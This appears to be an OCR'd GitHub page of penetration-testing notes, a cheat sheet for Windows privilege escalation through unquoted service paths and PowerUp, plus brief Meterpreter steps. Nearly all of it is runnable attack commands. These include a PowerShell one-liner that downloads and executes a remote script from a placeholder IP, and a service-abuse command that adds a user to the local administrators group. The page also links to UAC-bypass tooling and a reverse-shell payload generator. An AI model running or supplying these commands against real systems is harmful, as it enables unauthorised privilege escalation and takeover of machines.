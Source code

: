 ## Windows

[[Unquoted Service Path]](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) 

`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """ `

Unquoted Service Path: See if user has permissions to launch found executable...

`sc stop SERVICE`

`sc start SERVICE`

Unquoted Service Path: See if you can (M)odify designated folder

`icacls "FOLDERNAME"`

### Power Shell Priv Escalation

1. Create HTTP Server to host PowerUp.ps1

2. iex (New-Object Net.WebClient).DownloadString('http://<IP>/PowerUp.ps1')
 
3. Invoke-AllChecks

Add your user to Admins group, go UAC Bypass from there.
4. Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"


[[Bypass Uac]](https://github.com/hfiref0x/UACME)
[[UACME Hackersploit video]](https://www.youtube.com/watch?v=RXX0FHM9SEk)

# All
Generate Payloads

https://www.revshells.com/

## Meterpreter

create shell and check gcc version

`execute -f /bin/sh -i -c`

`gcc --version`
